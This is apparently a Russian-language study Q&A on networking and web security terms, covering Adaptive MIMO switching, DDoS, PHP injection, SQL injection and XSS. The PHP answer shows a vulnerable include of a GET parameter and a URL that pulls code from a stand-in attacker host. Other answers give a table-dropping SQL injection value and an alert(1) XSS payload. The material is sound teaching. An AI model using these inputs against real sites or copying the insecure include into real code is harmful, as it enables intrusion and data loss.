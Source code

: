 27. Где и для чего используется Adaptive MIMO Switch?
   ```spoiler-block
   Смена технологий MIMO (multiple input - multiple output) в зависимости от расстояний до базовой станции. Чем мы ближе к базовой станции, тем эффективнее пространственное мультиплексирование (spacial multiplexing), чем дальше - пространственно-временные блоковые коды (space time coding).

Адаптивное переключение MIMO было предложено для поддержания наилучшей эффективности BER (Bit Error Rate) (частоты ошибок по битам) при передаче данных среди различных вариантов схем MIMO в системе WiMAX.

Короче, меняет технологии MIMO (Multiple Input Multiple Output) в зависимости от расстояния до базовой станции. Если близко, то меняет на пространственное мультиплексирование (spacial multiplexing), если далеко, то пространственно-временные блоковые коды (space-time coding). Необходимо для поддержания наилучшей эффективонсти BER (то есть, как я понимаю, чтобы частота ошибок по битам была минимальной) в системе WiMAX
   ```

28. Где и для чего используется DDoS?
   ```spoiler-block
   Distributed Denial of Service - распределенная атака на отказ в обслуживании, производится одновременно с большого количества IP-адресов.

Cпособ заблокировать работу сайта путем подачи большого количества запросов, превышающих пропускную способность сети.
   ```

29. Где и для чего используется PHP injection?
   ```spoiler-block
   Один из способов взлома веб-сайтов, работающих на PHP, заключающийся в выполнении постороннего кода на стороне сервера.
   Пример: 
   php-скрипт http://site.php?module=... 
   содержит строки: 
	   $module = $_GET['module']; 
	   include ($module.'.php'); 
Хакер создает свой php-код hack.php, выкладывает его на сервер http://hacker.ru/ и набирает в браузере: 
http://site.php?module=http://hacker.ru/hack
   ```

30. Где и для чего используется SQL injection?
   ```spoiler-block
   SQL injection - вид сетевой атаки, заключающийся в изменении начального SQL-запроса путем подачи неверных параметров. Используется для получения конфиденциальной информации из базы данных.
   Например, на сайте есть поле ввода, значение которого подставляется в SQL запрос:
SELECT * FROM products WHERE productName = $product_name 
и в качестве $product_name передать ""; DROP products--
то может произойти потеря таблицы products
   ```

31. Где и для чего используется XSS?
   ```spoiler-block
   XSS - Cross Site Scripting - межсайтовый скриптинг - один из видов угроз безопасности,

тип атаки на веб-системы, заключающийся во внедрении в выдаваемую веб-системой страницу вредоносного кода (который будет выполнен на компьютере пользователя при открытии им этой страницы) и взаимодействии этого кода с вебсервером злоумышленника.

Пример зараженной ссылки (при переходе по которой, если отключена XSS уязвимость, будет выведена единица во всплывающем окне)
http://localhost:8080?message=<script>alert(1)</script>

Еще один простой пример - когда мы даем пользователю что-то ввести в поле ввода, а после вставляем этот текст как HTML на страницу. Если он введет <script>alert(1)</script>, а клиентский код не будет обрабатывать и пресекать XSS уязвимость, на экране выведется в окне единичка

   ```